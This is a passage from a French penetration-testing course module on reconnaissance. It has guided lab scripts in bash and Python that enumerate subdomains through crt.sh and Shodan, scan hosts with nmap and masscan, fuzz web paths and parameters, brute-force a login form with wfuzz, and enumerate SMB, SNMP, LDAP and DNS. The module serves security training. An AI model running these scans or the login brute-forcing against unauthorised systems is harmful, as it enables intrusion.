curl -s "https://crt.sh/?q=%25.${DOMAIN}&output=json" | \\
    jq -r '.[].name_value' | \\
    sed 's/\\*\\.//g' | \\
    sort -u > "crt-subdomains-${DOMAIN}.txt"
echo "[+] $(wc -l < "crt-subdomains-${DOMAIN}.txt") sous-domaines trouvés"

# Résolution des sous-domaines
while read sub; do
    dig +short "$sub" A | grep -v "^$" && echo "  → $sub"
done < "crt-subdomains-${DOMAIN}.txt" > "resolved-${DOMAIN}.txt"
echo "[+] $(wc -l < "resolved-${DOMAIN}.txt") sous-domaines résolvables"
```

### 6.4 TP Guidé — Trouver des assets exposés

#### Objectif
Utiliser Shodan, Censys et crt.sh pour cartographier les assets exposés d'un domaine cible.

```bash
#!/bin/bash
# osint-reseau.sh — OSINT réseau automatisé
# Usage : ./osint-reseau.sh <domaine>
# Exemple : ./osint-reseau.sh example.com

set -e
DOMAIN="${1}"
RAPPORT_DIR="rapport-osint-$(date +%Y%m%d_%H%M%S)"

if [ -z "$DOMAIN" ]; then
    echo "Usage : $0 <domaine>"
    exit 1
fi

mkdir -p "$RAPPORT_DIR"

echo "=========================================="
echo " OSINT réseau pour : $DOMAIN"
echo "=========================================="

# Phase 1 : Sous-domaines via crt.sh
echo "[1/4] Sous-domaines via Certificate Transparency..."
curl -s "https://crt.sh/?q=%25.${DOMAIN}&output=json" 2>/dev/null | \\
    jq -r '.[].name_value' 2>/dev/null | \\
    sed 's/\\*\\.//g' | \\
    sort -u > "${RAPPORT_DIR}/01-subdomain-crtsh.txt" 2>/dev/null

NB_CRTSH=$(wc -l < "${RAPPORT_DIR}/01-subdomain-crtsh.txt" 2>/dev/null || echo 0)
echo "  → $NB_CRTSH sous-domaines trouvés via crt.sh"

# Résolution DNS
while read -r sub; do
    ip=$(dig +short "$sub" A 2>/dev/null | head -1)
    if [ -n "$ip" ]; then
        echo "$ip $sub" >> "${RAPPORT_DIR}/01-resolved.txt"
    fi
done < "${RAPPORT_DIR}/01-subdomain-crtsh.txt"

NB_RESOLVED=$(wc -l < "${RAPPORT_DIR}/01-resolved.txt" 2>/dev/null || echo 0)
echo "  → $NB_RESOLVED sous-domaines résolvables"

# Phase 2 : Plages IP
echo "[2/4] Découverte des plages IP..."
awk '{print $1}' "${RAPPORT_DIR}/01-resolved.txt" 2>/dev/null | \\
    sort -u > "${RAPPORT_DIR}/02-ips.txt"
echo "  → $(wc -l < "${RAPPORT_DIR}/02-ips.txt" 2>/dev/null || echo 0) IPs uniques"

# Phase 3 : Shodan (si configuré)
echo "[3/4] Shodan recherche..."
if command -v shodan &>/dev/null && shodan info &>/dev/null 2>&1; then
    for ip in $(head -10 "${RAPPORT_DIR}/02-ips.txt" 2>/dev/null); do
        shodan host "$ip" > "${RAPPORT_DIR}/03-shodan-${ip}.txt" 2>/dev/null &
    done
    wait
    echo "  → Résultats Shodan enregistrés"
else
    echo "  → Shodan non configuré."
fi

# Phase 4 : Scan rapide
echo "[4/4] Scan rapide des IPs..."
if [ -f "${RAPPORT_DIR}/02-ips.txt" ]; then
    while read -r ip; do
        sudo nmap -sS -T4 --top-ports 100 \\
            -oA "${RAPPORT_DIR}/04-scan-${ip}" \\
            "$ip" > /dev/null 2>&1
    done < "${RAPPORT_DIR}/02-ips.txt"
fi

echo ""
echo "=========================================="
echo " OSINT terminé !"
echo "=========================================="
```

---

## 7. Énumération Web avancée (T1592)

### 7.1 ffuf — Fuzzing Web haute performance

ffuf (Fuzz Faster U Fool) est un outil de fuzzing écrit en Go, extrêmement rapide.

#### Installation

```bash
# Installation via apt
sudo apt install -y ffuf

# Via Go
go install github.com/ffuf/ffuf/v2@latest

# Vérification
ffuf -V
```

#### Directory Fuzzing

```bash
# Directory bruteforce basique
ffuf -u http://example.com/FUZZ \\
    -w /usr/share/wordlists/dirb/common.txt

# Avec extension
ffuf -u http://example.com/FUZZ \\
    -w /usr/share/wordlists/dirb/common.txt \\
    -e .php,.asp,.aspx,.jsp,.html,.txt

# Avec code HTTP filtré (ignorer 404)
ffuf -u http://example.com/FUZZ \\
    -w /usr/share/wordlists/dirb/common.txt \\
    -fc 404

# Avec taille de réponse filtrée
ffuf -u http://example.com/FUZZ \\
    -w /usr/share/wordlists/dirb/common.txt \\
    -fs 1234

# Avec threadings (vitesse)
ffuf -u http://example.com/FUZZ \\
    -w /usr/share/wordlists/dirb/common.txt \\
    -t 100

# Avec authentification
ffuf -u http://example.com/FUZZ \\
    -w /usr/share/wordlists/dirb/common.txt \\
    -H "Authorization: Basic $(echo -n 'user:pass' | base64)"

# Avec cookie
ffuf -u http://example.com/FUZZ \\
    -w /usr/share/wordlists/dirb/common.txt \\
    -b "session=abc123"

# Avec header personnalisé
ffuf -u http://example.com/FUZZ \\
    -w /usr/share/wordlists/dirb/common.txt \\
    -H "X-Forwarded-For: 127.0.0.1"

# Sortie JSON
ffuf -u http://example.com/FUZZ \\
    -w /usr/share/wordlists/dirb/common.txt \\
    -o results.json -of json
```

#### Virtual Host Discovery

```bash
# Découverte de vhost
ffuf -w /usr/share/wordlists/amass/subdomains-top1mil.txt \\
    -u http://192.168.1.1 \\
    -H "Host: FUZZ.example.com" \\
    -fc 200,404

# Vhost avec taille de réponse filtrée
ffuf -w /usr/share/wordlists/amass/subdomains-top1mil.txt \\
    -u http://192.168.1.1 \\
    -H "Host: FUZZ.example.com" \\
    -fs 1234

# Vhost sur HTTPS
ffuf -w /usr/share/wordlists/amass/subdomains-top1mil.txt \\
    -u https://192.168.1.1 \\
    -H "Host: FUZZ.example.com" \\
    -k
```

#### Parameter Fuzzing

```bash
# Fuzzing de paramètres GET
ffuf -u http://example.com/page?FUZZ=test \\
    -w /usr/share/wordlists/param-mini.txt

# Fuzzing de valeurs de paramètres
ffuf -u http://example.com/page?id=FUZZ \\
    -w ids.txt

# Fuzzing de paramètres POST
ffuf -u http://example.com/login \\
    -w /usr/share/wordlists/param-mini.txt \\
    -X POST \\
    -d "FUZZ=test"

# Fuzzing avec données JSON
ffuf -u http://example.com/api \\
    -w /usr/share/wordlists/param-mini.txt \\
    -X POST \\
    -H "Content-Type: application/json" \\
    -d '{"FUZZ":"test"}'
```

#### Wordlists recommandées

```bash
# Wordlists disponibles sur Kali
ls /usr/share/wordlists/
ls /usr/share/wordlists/dirb/
ls /usr/share/wordlists/dirbuster/

# Wordlists SecLists
git clone https://github.com/danielmiessler/SecLists.git /usr/share/wordlists/seclists

# Directory fuzzing :
/usr/share/wordlists/dirb/common.txt           # 4614 mots

# Vhost :
/usr/share/wordlists/amass/subdomains-top1mil.txt

# Parameters :
/usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt
```

### 7.2 Gobuster — Multi-mode fuzzing

#### Installation

```bash
# Installation
sudo apt install -y gobuster

# Via Go
go install github.com/OJ/gobuster/v3@latest
```

#### Mode dir (Directory)

```bash
# Directory bruteforce basique
gobuster dir -u http://example.com \\
    -w /usr/share/wordlists/dirb/common.txt

# Avec extensions
gobuster dir -u http://example.com \\
    -w /usr/share/wordlists/dirb/common.txt \\
    -x php,html,txt,asp

# Avec status codes exclus
gobuster dir -u http://example.com \\
    -w /usr/share/wordlists/dirb/common.txt \\
    -x php,html \\
    -b 404,403

# Avec threads
gobuster dir -u http://example.com \\
    -w /usr/share/wordlists/dirb/common.txt \\
    -t 50

# Avec cookie
gobuster dir -u http://example.com \\
    -w /usr/share/wordlists/dirb/common.txt \\
    -c "session=abc123"

# Avec proxy
gobuster dir -u http://example.com \\
    -w /usr/share/wordlists/dirb/common.txt \\
    -p http://127.0.0.1:8080
```

#### Mode dns (Sous-domaines)

```bash
# DNS bruteforce basique
gobuster dns -d example.com \\
    -w /usr/share/wordlists/amass/subdomains-top1mil.txt

# Avec serveur DNS spécifique
gobuster dns -d example.com \\
    -w /usr/share/wordlists/amass/subdomains-top1mil.txt \\
    -r 8.8.8.8

# Avec wildcard detection
gobuster dns -d example.com \\
    -w /usr/share/wordlists/amass/subdomains-top1mil.txt \\
    --wildcard
```

#### Mode vhost (Virtual Host)

```bash
# Vhost discovery
gobuster vhost -u http://192.168.1.1 \\
    -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt \\
    --append-domain

# Vhost avec TLS
gobuster vhost -u https://example.com \\
    -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt \\
    -k
```

### 7.3 wfuzz — Fuzzing de paramètres

#### Installation

```bash
# Installation
sudo apt install -y wfuzz

# Vérification
wfuzz --help
```

#### Utilisation de wfuzz

```bash
# Directory bruteforce
wfuzz -w /usr/share/wordlists/dirb/common.txt \\
    --hc 404 \\
    http://example.com/FUZZ

# Fuzzing de paramètres GET
wfuzz -w /usr/share/wordlists/param-mini.txt \\
    -u http://example.com/page?FUZZ=1

# Fuzzing de paramètres POST
wfuzz -w /usr/share/wordlists/param-mini.txt \\
    -d "FUZZ=1" \\
    http://example.com/page

# Fuzzing de cookie
wfuzz -w /usr/share/wordlists/param-mini.txt \\
    -b "FUZZ=1" \\
    http://example.com/page

# Fuzzing de header
wfuzz -w /usr/share/wordlists/param-mini.txt \\
    -H "X-Forwarded-For: FUZZ" \\
    http://example.com/page

# Fuzzing avec payload multiple
wfuzz -w users.txt -w passwords.txt \\
    -d "username=FUZZ&password=FUZ2Z" \\
    http://example.com/login

# Filtrage par code HTTP
wfuzz -w /usr/share/wordlists/dirb/common.txt \\
    --hc 404,403 \\
    http://example.com/FUZZ

# Filtrage par taille
wfuzz -w /usr/share/wordlists/dirb/common.txt \\
    --hw 120 \\
    http://example.com/FUZZ

# Itérateurs (range, hex)
wfuzz -z range,0-10 \\
    -u http://example.com/page?id=FUZZ
```

### 7.4 TP Guidé — Découverte d'endpoints cachés

#### Objectif
Découvrir les endpoints cachés, sous-domaines et paramètres d'une application web cible.

```bash
#!/bin/bash
# decouverte-web.sh — Découverte d'endpoints web
# Usage : ./decouverte-web.sh <url>
# Exemple : ./decouverte-web.sh http://192.168.1.1

set -e

URL="${1}"
RAPPORT_DIR="rapport-web-$(date +%Y%m%d_%H%M%S)"

if [ -z "$URL" ]; then
    echo "Usage : $0 <url>"
    exit 1
fi

mkdir -p "$RAPPORT_DIR"
echo "[*] Cible : $URL"

# Étape 1 : Directory bruteforce avec ffuf
echo "[1/4] Directory bruteforce (ffuf)..."
ffuf -u "${URL}/FUZZ" \\
    -w /usr/share/wordlists/dirb/common.txt \\
    -e .php,.html,.txt,.asp,.aspx,.jsp,.bak,.old,.inc,.config,.xml,.json \\
    -fc 404,403 \\
    -t 50 \\
    -o "${RAPPORT_DIR}/01-ffuf-dir.json" \\
    -of json \\
    > /dev/null 2>&1

cat "${RAPPORT_DIR}/01-ffuf-dir.json" 2>/dev/null | \\
    jq -r '.results[] | select(.status != 404) | "  \\(.status) \\(.length) \\(.url)"' 2>/dev/null

# Étape 2 : Découverte de sous-domaines (si domaine)
echo "[2/4] Sous-domaines..."
DOMAIN=$(echo "$URL" | awk -F/ '{print $3}')
if echo "$DOMAIN" | grep -qP '\\.'; then
    gobuster dns -d "$DOMAIN" \\
        -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt \\
        -o "${RAPPORT_DIR}/02-gobuster-dns.txt" \\
        > /dev/null 2>&1
fi

# Étape 3 : Virtual Host discovery
echo "[3/4] Virtual Host discovery..."
gobuster vhost -u "$URL" \\
    -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt \\
    --append-domain \\
    -o "${RAPPORT_DIR}/03-gobuster-vhost.txt" \\
    > /dev/null 2>&1

# Étape 4 : Parameter fuzzing
echo "[4/4] Parameter fuzzing (wfuzz)..."
wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt \\
    --hc 404,403,500 \\
    -t 20 \\
    "${URL}/page?FUZZ=test" \\
    > "${RAPPORT_DIR}/04-wfuzz-params.txt" 2>/dev/null || true

echo ""
echo "=========================================="
echo " Découverte web terminée !"
echo " Rapport : ${RAPPORT_DIR}/"
echo "=========================================="
```

---

## 8. Script d'automatisation de reconnaissance

### 8.1 Script Python complet

Ce script Python automatisé orchestre l'ensemble de la phase de reconnaissance.

```python
#!/usr/bin/env python3
\"\"\"
recon-automation.py — Automatisation complète de la phase de reconnaissance.

Usage :
    python3 recon-automation.py <target> [options]

Options :
    -m, --mode <fast|full|stealth>   Mode de scan (defaut: fast)
    -o, --output <dir>               Dossier de sortie
    -p, --ports <range>              Plage de ports (defaut: top1000)
    --no-enum                        Desactiver l'enumeration de services
    --no-web                         Desactiver l'enumeration web
    --no-osint                       Desactiver l'OSINT
    --verbose                        Mode verbeux
\"\"\"

import os
import sys
import json
import argparse
import subprocess
import datetime
from pathlib import Path


WORDLISTS = {
    "dir": "/usr/share/wordlists/dirb/common.txt",
    "subdomains": "/usr/share/wordlists/amass/subdomains-top1mil.txt",
    "params": "/usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt",
}

NSE_SCRIPTS = [
    "smb-enum-shares", "smb-os-discovery", "smb-security-mode",
    "http-enum", "http-headers", "http-title", "http-server-header",
    "dns-zone-transfer", "dns-nsid",
    "mysql-enum", "mysql-info", "mysql-empty-password",
    "ssh-hostkey", "ssh-auth-methods", "ssh2-enum-algos",
    "ftp-anon", "tftp-enum",
]


def log(message, level="INFO"):
    timestamp = datetime.datetime.now().strftime("%H:%M:%S")
    print(f"[{timestamp}] [{level}] {message}")


def run_command(command, shell=False, timeout=300):
    try:
        result = subprocess.run(
            command, shell=shell, capture_output=True,
            text=True, timeout=timeout,
        )
        return result.stdout, result.stderr, result.returncode
    except subprocess.TimeoutExpired:
        return "", "TIMEOUT", -1
    except FileNotFoundError as e:
        return "", f"Command not found: {e}", -1


def ensure_directory(path):
    Path(path).mkdir(parents=True, exist_ok=True)


def save_json(data, filepath):
    with open(filepath, "w") as f:
        json.dump(data, f, indent=2)


class ReconAutomation:
    def __init__(self, target, output_dir, mode="fast", ports="top1000",
                 enable_enum=True, enable_web=True, enable_osint=True,
                 verbose=False):
        self.target = target
        self.output_dir = output_dir
        self.mode = mode
        self.ports = ports
        self.enable_enum = enable_enum
        self.enable_web = enable_web
        self.enable_osint = enable_osint
        self.verbose = verbose
        self.target_type = self._detect_target_type(target)
        self.hosts = []
        self.open_ports = {}
        self.results = {
            "target": target,
            "start_time": datetime.datetime.now().isoformat(),
            "phases": {},
        }
        ensure_directory(output_dir)

    def _detect_target_type(self, target):
        if "/" in target:
            return "cidr"
        if target.replace(".", "").isdigit():
            return "ip"
        if "." in target:
            return "domain"
        return "unknown"

    def phase1_discovery(self):
        log("Phase 1 : Decouverte d'hotes actifs...")
        phase_dir = f"{self.output_dir}/01-discovery"
        ensure_directory(phase_dir)

        if self.target_type in ("ip", "cidr"):
            cmd = ["nmap", "-sn", "-T4", self.target, "-oA", f"{phase_dir}/ping-sweep"]
            run_command(cmd)

            grep_cmd = (
                f"grep 'Nmap scan report for' {phase_dir}/ping-sweep.nmap "
                f"| grep -oP '\\\\d+\\\\.\\\\d+\\\\.\\\\d+\\\\.\\\\d+'"
            )
            hosts_out, _, _ = run_command(grep_cmd, shell=True)
            self.hosts = hosts_out.strip().split("\\n") if hosts_out.strip() else []

        elif self.target_type == "domain":
            cmd = ["dig", "+short", self.target, "A"]
            stdout, _, _ = run_command(cmd)
            ips = [ip for ip in stdout.strip().split("\\n") if ip]
            self.hosts = ips

        save_json({"hosts": self.hosts}, f"{phase_dir}/hosts.json")
        self.results["phases"]["discovery"] = {
            "hosts_found": len(self.hosts), "hosts": self.hosts,
        }
        log(f"  -> {len(self.hosts)} hotes decouverts")
        return self.hosts

    def phase2_port_scan(self):
        log("Phase 2 : Scan de ports...")
        phase_dir = f"{self.output_dir}/02-port-scan"
        ensure_directory(phase_dir)

        if not self.hosts:
            return {}

        timing_map = {"stealth": "-T1", "fast": "-T4", "full": "-T4"}
        timing = timing_map.get(self.mode, "-T4")
        ports_arg = "--top-ports 1000" if self.ports == "top1000" else f"-p {self.ports}"

        for host in self.hosts:
            log(f"  -> Scan de {host}...")
            cmd = f"nmap -sS {timing} {ports_arg} -sV -O --osscan-guess -oA {phase_dir}/scan-{host} {host}"
            run_command(cmd, shell=True, timeout=600)

            grep_cmd = f"grep -E '^[0-9]+/(tcp|udp)' {phase_dir}/scan-{host}.nmap | grep 'open'"
            ports_out, _, _ = run_command(grep_cmd, shell=True)

            ports = []
            for line in ports_out.strip().split("\\n"):
                if line:
                    parts = line.split()
                    port_proto = parts[0]
                    service = parts[2] if len(parts) > 2 else "?"
                    ports.append({"port": port_proto, "service": service})
            self.open_ports[host] = ports

        save_json(self.open_ports, f"{phase_dir}/ports.json")
        return self.open_ports

    def phase3_service_enum(self):
        if not self.enable_enum:
            return {}
        log("Phase 3 : Enumeration des services...")
        phase_dir = f"{self.output_dir}/03-service-enum"
        ensure_directory(phase_dir)

        for host, ports in self.open_ports.items():
            services = [p["service"] for p in ports]
            if "microsoft-ds" in services or "netbios-ssn" in services:
                stdout, _, _ = run_command(["enum4linux", "-a", host], timeout=120)
                with open(f"{phase_dir}/smb-{host}.txt", "w") as f:
                    f.write(stdout)
            if any(s in services for s in ["http", "https"]):
                cmd = ["nmap", "-p", "80,443,8080,8443",
                       "--script", "http-enum,http-headers,http-title",
                       "-oA", f"{phase_dir}/http-{host}", host]
                run_command(cmd, timeout=180)
            if "domain" in services:
                cmd = ["nmap", "-p", "53",
                       "--script", "dns-zone-transfer,dns-nsid",
                       "-oA", f"{phase_dir}/dns-{host}", host]
                run_command(cmd, timeout=60)
        return {}

    def phase4_web_enum(self):
        if not self.enable_web:
            return {}
        log("Phase 4 : Enumeration web...")
        phase_dir = f"{self.output_dir}/04-web-enum"
        ensure_directory(phase_dir)

        for host, ports in self.open_ports.items():
            http_ports = [p["port"] for p in ports if p["service"] in ("http", "https")]
            for port_str in http_ports:
                port = port_str.split("/")[0]
                proto = "https" if port in ("443", "8443") else "http"
                url = f"{proto}://{host}:{port}"
                cmd = (
                    f"ffuf -u {url}/FUZZ -w {WORDLISTS['dir']} "
                    f"-e .php,.html,.txt,.bak,.asp -fc 404,403 "
                    f"-t 50 -of json -o {phase_dir}/ffuf-{host}-{port}.json "
                    f"> /dev/null 2>&1"
                )
                run_command(cmd, shell=True, timeout=120)
        return {}

    def phase5_osint(self):
        if not self.enable_osint:
            return {}
        log("Phase 5 : OSINT reseau...")
        phase_dir = f"{self.output_dir}/05-osint"
        ensure_directory(phase_dir)

        if self.target_type == "domain":
            cmd = (
                f"curl -s 'https://crt.sh/?q=%25.{self.target}&output=json' "
                f"| jq -r '.[].name_value' | sed 's/\\\\*\\\\.//g' "
                f"| sort -u > {phase_dir}/crt-subdomains.txt"
            )
            run_command(cmd, shell=True, timeout=30)
        return {}

    def generate_report(self):
        log("Generation du rapport final...")
        self.results["end_time"] = datetime.datetime.now().isoformat()
        self.results["summary"] = {
            "total_hosts": len(self.hosts),
            "total_open_ports": sum(len(p) for p in self.open_ports.values()),
            "phases_completed": list(self.results["phases"].keys()),
        }
        save_json(self.results, f"{self.output_dir}/rapport_final.json")

        txt_path = f"{self.output_dir}/rapport_final.txt"
        with open(txt_path, "w") as f:
            f.write("RAPPORT DE RECONNAISSANCE\\n")
            f.write(f"Cible : {self.target}\\n")
            f.write(f"Date : {self.results['start_time']}\\n\\n")
            for host in self.hosts:
                f.write(f"\\n[+] HOTE : {host}\\n")
                ports = self.open_ports.get(host, [])
                for p in ports:
                    f.write(f"  - {p['port']} -> {p['service']}\\n")
        log(f"  -> Rapport genere dans {self.output_dir}/")

    def run(self):
        log(f"Demarrage de la reconnaissance pour : {self.target}")
        self.phase1_discovery()
        if self.hosts:
            self.phase2_port_scan()
            self.phase3_service_enum()
            self.phase4_web_enum()
        self.phase5_osint()
        self.generate_report()
        log("Reconnaissance terminee !")


def main():
    parser = argparse.ArgumentParser(description="Recon Automation")
    parser.add_argument("target", help="Cible (CIDR, IP, domaine)")
    parser.add_argument("-m", "--mode", choices=["fast", "full", "stealth"],
                        default="fast")
    parser.add_argument("-o", "--output", default=None)
    parser.add_argument("-p", "--ports", default="top1000")
    parser.add_argument("--no-enum", action="store_true")
    parser.add_argument("--no-web", action="store_true")
    parser.add_argument("--no-osint", action="store_true")
    parser.add_argument("--verbose", "-v", action="store_true")
    args = parser.parse_args()

    target_safe = args.target.replace("/", "_").replace(".", "-")
    output_dir = args.output or f"recon-{target_safe}-{datetime.datetime.now().strftime('%Y%m%d_%H%M%S')}"

    recon = ReconAutomation(
        target=args.target, output_dir=output_dir, mode=args.mode,
        ports=args.ports, enable_enum=not args.no_enum,
        enable_web=not args.no_web, enable_osint=not args.no_osint,
        verbose=args.verbose,
    )
    try:
        recon.run()
    except KeyboardInterrupt:
        log("\\nInterruption utilisateur.", "WARN")
        sys.exit(1)


if __name__ == "__main__":
    main()
```

### 8.2 Utilisation du script

```bash
# Rendre le script executable
chmod +x recon-automation.py

# Mode rapide sur un sous-reseau
python3 recon-automation.py 192.168.1.0/24

# Mode complet sur une IP unique
python3 recon-automation.py 10.0.0.1 -m full -p 1-65535 -v

# Mode furtif (evasion IDS)
python3 recon-automation.py 192.168.1.0/24 -m stealth

# OSINT seulement
python3 recon-automation.py example.com --no-enum --no-web

# Dossier de sortie personnalise
python3 recon-automation.py 10.0.0.0/24 -o /tmp/rapport-recon
```

---

## 9. TP Synthèse

### 9.1 Objectif

Reconnaissance complète d'un domaine cible (exemple : `megacorp.local`). Pipeline complet :

```
1. Scan ports (Masscan/Rustscan/Nmap)
2. Enumeration services (SMB, SNMP, DNS, LDAP, NFS)
3. Fingerprinting (OS, versions)
4. OSINT (Shodan, crt.sh)
5. Enumeration web (ffuf, gobuster)
6. Rapport structure
```

### 9.2 Pipeline complet de reconnaissance

```bash
#!/bin/bash
# tp-synthese.sh — TP Synthese : Reconnaissance complete
# Usage : sudo ./tp-synthese.sh <cible>
# Exemple : sudo ./tp-synthese.sh megacorp.local

set -e
CIBLE="${1}"
BASE_DIR="tp-synthese-$(date +%Y%m%d_%H%M%S)"

if [ -z "$CIBLE" ]; then
    echo "Usage : $0 <cible>"
    exit 1
fi

mkdir -p "$BASE_DIR"
echo "============================================="
echo " TP SYNTHESE - RECONNAISSANCE COMPLETE"
echo " Cible : $CIBLE"
echo " Date : $(date)"
echo "============================================="

# Phase 1 : Resolution DNS et OSINT (si domaine)
echo ""
echo "===== [PHASE 1] OSINT & DNS ====="

if echo "$CIBLE" | grep -qP '^[a-zA-Z]'; then
    echo "[*] Domaine : $CIBLE"

    # Resolution DNS
    IP=$(dig +short "$CIBLE" A | head -1)
    echo "[1a] Resolution DNS : $CIBLE -> $IP"

    # Sous-domaines (crt.sh)
    echo "[1b] Sous-domaines via crt.sh..."
    curl -s "https://crt.sh/?q=%25.${CIBLE}&output=json" 2>/dev/null | \\
        jq -r '.[].name_value' 2>/dev/null | \\
        sed 's/\\*\\.//g' | sort -u > "${BASE_DIR}/subdomains.txt" 2>/dev/null
    echo "  -> $(wc -l < "${BASE_DIR}/subdomains.txt" 2>/dev/null || echo 0) sous-domaines"

    # Resoudre les sous-domaines
    while read -r sub; do
        sub_ip=$(dig +short "$sub" A 2>/dev/null | head -1)
        [ -n "$sub_ip" ] && echo "$sub_ip $sub" >> "${BASE_DIR}/resolved.txt"
    done < "${BASE_DIR}/subdomains.txt"

    TARGET_IP="$IP"
else
    TARGET_IP="$CIBLE"
fi

# Sous-reseau cible
CIDR_TARGET="${TARGET_IP%.*}.0/24"
echo "[1d] Sous-reseau cible : $CIDR_TARGET"

# Phase 2 : Decouverte d'hotes
echo ""
echo "===== [PHASE 2] DECOUVERTE D'HOTES ====="
sudo nmap -sn -T4 "$CIDR_TARGET" -oA "${BASE_DIR}/ping-sweep"

grep "Nmap scan report for" "${BASE_DIR}/ping-sweep.nmap" | \\
    grep -oP '\\d+\\.\\d+\\.\\d+\\.\\d+' > "${BASE_DIR}/hosts.txt"

NB_HOSTS=$(wc -l < "${BASE_DIR}/hosts.txt")
echo "[+] $NB_HOSTS hotes actifs"

# Phase 3 : Scan de ports
echo ""
echo "===== [PHASE 3] SCAN DE PORTS ====="

if command -v masscan &>/dev/null; then
    echo "[3a] Masscan ultra-rapide..."
    sudo masscan -iL "${BASE_DIR}/hosts.txt" -p1-65535 \\
        --rate=100000 --wait 2 \\
        -oL "${BASE_DIR}/masscan-ports.txt" 2>/dev/null || true
fi

echo "[3b] Nmap approfondi..."
while read -r host; do
    sudo nmap -sS -sV -O -T4 --top-ports 1000 \\
        --script default,vuln --script-timeout 60s \\
        -oA "${BASE_DIR}/nmap-${host}" "$host" > /dev/null 2>&1
    echo "  -> $host scanne"
done < "${BASE_DIR}/hosts.txt"

# Phase 4 : Enumeration des services
echo ""
echo "===== [PHASE 4] ENUMERATION ====="

for host in $(cat "${BASE_DIR}/hosts.txt"); do
    if grep -q "445/open" "${BASE_DIR}/nmap-${host}.nmap" 2>/dev/null; then
        echo "[SMB] $host..."
        enum4linux -a "$host" > "${BASE_DIR}/smb-${host}.txt" 2>/dev/null
    fi
    if grep -qE "(80|443)/open" "${BASE_DIR}/nmap-${host}.nmap" 2>/dev/null; then
        echo "[HTTP] $host..."
        gobuster dir -u "http://${host}" \\
            -w /usr/share/wordlists/dirb/common.txt \\
            -x php,html,txt,bak -b 404,403 \\
            -o "${BASE_DIR}/gobuster-${host}.txt" > /dev/null 2>&1 || true
    fi
    if grep -q "53/open" "${BASE_DIR}/nmap-${host}.nmap" 2>/dev/null; then
        echo "[DNS] $host..."
        dig @"$host" example.com AXFR +short > "${BASE_DIR}/zone-transfer-${host}.txt" 2>/dev/null
    fi
    if grep -q "161/open" "${BASE_DIR}/nmap-${host}.nmap" 2>/dev/null; then
        echo "[SNMP] $host..."
        snmpwalk -v2c -c public "$host" .1.3.6.1.2.1.1 \\
            > "${BASE_DIR}/snmp-${host}.txt" 2>/dev/null
    fi
    if grep -qE "(389|636)/open" "${BASE_DIR}/nmap-${host}.nmap" 2>/dev/null; then
        echo "[LDAP] $host..."
        ldapsearch -x -H "ldap://${host}" -b "" -s base \\
            "(objectClass=*)" namingContexts \\
            > "${BASE_DIR}/ldap-${host}.txt" 2>/dev/null
    fi
done

# Phase 5 : Rapport final
echo ""
echo "===== [PHASE 5] RAPPORT FINAL ====="

cat > "${BASE_DIR}/rapport-synthese.md" << 'RAPPORT_EOF'
# Rapport de Reconnaissance

**Cible :** $CIBLE
**Sous-reseau :** $CIDR_TARGET
**Hotes decouverts :** $NB_HOSTS

## Reseau

## Services decouverts

## Techniques MITRE ATT&CK identifiees

| Technique | ID | Detection |
|-----------|----|-----------|
| Active Scanning | T1595 | Requetes SYN massives |
| Network Service Discovery | T1046 | Scans de ports |
| Network Share Discovery | T1049 | Enumeration SMB |
| Gather Victim Network Info | T1590 | Requetes DNS |
| Gather Victim Host Info | T1592 | Fingerprinting |
| Account Discovery | T1087 | Enumeration LDAP |

## Recommandations NIS2

- Cartographier et inventorier tous les actifs
- Restreindre les acces aux services sensibles
- Desactiver les protocoles non necessaires
- Mettre a jour les versions identifiees
RAPPORT_EOF

echo "[✓] Rapport genere : ${BASE_DIR}/rapport-synthese.md"

# Resume
echo ""
echo "============================================="
echo " RESUME DE LA RECONNAISSANCE"
echo "============================================="
echo " Cible : $CIBLE"
echo " Hotes : $NB_HOSTS"
echo ""
for host in $(cat "${BASE_DIR}/hosts.txt" 2>/dev/null); do
    echo "--- $host ---"
    [ -f "${BASE_DIR}/nmap-${host}.nmap" ] && \\
        grep -E "^[0-9]+/(tcp|udp).*open" "${BASE_DIR}/nmap-${host}.nmap" || \\
        echo "  Aucun port ouvert"
done

echo ""
echo "============================================="
echo " TP Synthese termine !"
echo " Rapport complet : ${BASE_DIR}/"
echo "============================================="
```

### 9.3 Exécution du TP synthèse

```bash
# Rendre le script executable
chmod +x tp-synthese.sh

# Executer sur un domaine
sudo ./tp-synthese.sh megacorp.local

# Executer sur une IP
sudo ./tp-synthese.sh 192.168.1.1

# Executer sur un sous-reseau
sudo ./tp-synthese.sh 192.168.1.0/24
```

### 9.4 Tableau ATT&CK à remplir

Chaque étudiant doit remplir ce tableau pendant le TP :

| Phase | Technique MITRE | ID | Détecté ? (O/N) | Outil utilisé | Évidence |
|-------|-----------------|----|-----------------|---------------|----------|
| Reconnaissance | Active Scanning | T1595.001 | | Nmap/Masscan/Rustscan | |
| Reconnaissance | Active Scanning | T1595.002 | | NSE vuln scripts | |
| Reconnaissance | Active Scanning | T1595.003 | | ffuf/gobuster/wfuzz | |
| Reconnaissance | Gather Victim Network Info | T1590 | | dig/dnsrecon | |
| Reconnaissance | Gather Victim Host Info | T1592.001 | | Nmap -O/-sV | |
| Reconnaissance | Gather Victim Host Info | T1592.004 | | Shodan/Censys/crt.sh | |
| Énumération | Network Service Discovery | T1046 | | Nmap/service enum | |
| Énumération | Network Share Discovery | T1049 | | enum4linux/CME | |
| Énumération | Account Discovery | T1087 | | ldapsearch/windapsearch | |

---

## Références

| Ressource | URL |
|-----------|-----|
| MITRE ATT&CK T1595 | https://attack.mitre.org/techniques/T1595/ |
| Nmap Documentation | https://nmap.org/docs.html |
| Nmap NSE | https://nmap.org/nsedoc/ |
| Masscan | https://github.com/robertdavidgraham/masscan |
| Rustscan | https://github.com/RustScan/RustScan |
| ffuf | https://github.com/ffuf/ffuf |
| Gobuster | https://github.com/OJ/gobuster |
| wfuzz | https://github.com/xmendez/wfuzz |
| Shodan | https://www.shodan.io/ |
| Censys | https://search.censys.io/ |
| crt.sh | https://crt.sh/ |
| CrackMapExec | https://github.com/byt3bl33d3r/CrackMapExec |
| SecLists | https://github.com/danielmiessler/SecLists |
